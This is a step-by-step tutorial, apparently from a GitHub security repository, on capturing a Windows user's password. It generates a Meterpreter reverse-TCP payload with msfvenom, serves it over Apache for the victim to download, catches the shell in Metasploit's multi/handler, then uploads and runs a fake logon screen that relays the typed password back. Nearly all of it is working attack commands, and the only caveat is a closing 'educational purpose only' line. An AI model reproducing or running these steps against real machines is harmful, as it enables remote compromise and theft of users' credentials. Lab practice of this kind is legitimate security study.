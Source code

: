 ## Windows Password Fishing with Fake Login Screen

# Things You Need:
* Kali Linux Machine (attacking machine).
* Windows 10 (victim machine).

# Step 1:
Start your Kali Linux machine and download the fake login screen from [here](https://github.com/bitsadmin/fakelogonscreen/releases)

![image1](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_LVw4yPzVvtjmrfMdAwMkw.png)

# Step 2:
Now unzip the file using the command

unzip <file-name>.zip

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*YJ_Fidq-fKkRmnCES8G-8g.png)

# Step 3:
After doing this you have to create a malicious payload using msfvenom. The exploit is as follow.

msfvenom -p windows/meterpreter/reverse_tcp lhost=<listning-ip> lport=<listning-port> -f exe >> <file-name-you-want-to-create>.exe

It’s creating a Meterpreter reverse TCP shell payload for a Windows target. Meterpreter is an advanced, dynamically extensible payload that operates in memory.

![image1](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*s9ju1fzKx6Qf70kkcQrGvQ.png)

![image1](https://miro.medium.com/v2/resize:fit:464/format:webp/1*abBUYoHzSYIBeJZnA6fHhg.png)

# Step 4:
First create a directory by the name of share in the location mentioned below and then paste the file that you have created in the directory. (LOCATION: /var/www/html)

cd /var/www/html
sudo mkdir share

Go back to the location where you have created the .exe file and then use this command to paste the file into the directory that you have made.

sudo cp <file-name> /var/www/html/shares/

# Step 5:
Now turn on the Apache2 server by using the following command

sudo service apache2 start

![image1](https://miro.medium.com/v2/resize:fit:522/format:webp/1*IaQyUeHH9IXhzm0CF1EocA.png)

# Step 6:
Now open up your windows 10 machine and then open your favorite browser and by using this format open the server.

http://<ip-address-of-attacking-machine>/share

![image1](https://miro.medium.com/v2/resize:fit:316/format:webp/1*SvQoqF2Jr_DEazGT9VCNCQ.png)

As you can see the file you created is there. So you have to simply download the file from the HTTP Server.

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*cjYd-6MIwIjo0QhQtptvtg.png)

![image1](![image](https://github.com/iabdullah215/Network-Security/assets/121729444/f27d6212-ea98-479c-b6d1-805ffaf1c720)

# Step 7:
After this go back to your Kali Linux machine and start the metasploit tool. First the command to set the module.

use multi/handler

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*Cw4DrI4hQW-SLJtiwXPNRw.png)

# Step 8:
Then set the Payload, LHOST, and LPORT parameters by using the commands below.

set LHOST <ip-address-of-your-machine>
set LPORT 4444 // it would be set to 4444 by default
set payload windows/meterpreter/reverse_tcp

![image1](https://miro.medium.com/v2/resize:fit:750/format:webp/1*vHNY-jUFytRV_RgulOjWhg.png)

# Step 9:
After this use any of the commands mentioned bellow to execute the exploit. After typing the command click the .exe file in the windows to start a connection.

run
exploit

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*hiUqGtFgl3-99E0efg0Gzw.png)

# Step 10:
Now upload the file from your Linux machine to the windows machine in the LOCATION: /root/Downloads/FakeLogonScreen.exe (where my file was downloaded) by using the command.

upload <location-where-file-is-downloaded-or-saved>

![image1](![image](https://github.com/iabdullah215/Network-Security/assets/121729444/076e3ac5-bb86-4daa-a1de-2da143f3ec7e))

# Step 11:
Now type the command below to enter the windows cmd.

shell

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*viV7AJUGhsU60otvRrgpuw.png)

# Step 12:
After this run .exe file by just entering the download directory and typing the name of file i.e. FakeLogonScreen.exe

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ij0x4IIrUuMs-sVci46jiw.png)

# Step 13:
After doing everything right you’ll see that all the running files on the windows will close and a login screen will open. Upon typing the password you’ll receive the feedback on the meterpreter terminal.

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*1jhonIDkgaOJZmRIZVhYLA.png)

# Step 14:
Now type in the password. If you’ll type in the wrong password. It will tell on the terminal that the password is wrong and when you’ll type in the correct password It’ll tell that it is the correct one.

![image1](https://miro.medium.com/v2/resize:fit:390/format:webp/1*1YA-dSqxhBBdbV9e9jzJnA.png)

As I was in my personal user so I can’t compromise that. So I created a test user in order to exploit it. So i again went through all the stuff and yah eventually got the password.

![image1](https://miro.medium.com/v2/resize:fit:494/format:webp/1*H8PTsDeajlosP4tJB5WCkA.png)

## Use it for educational purpose only...
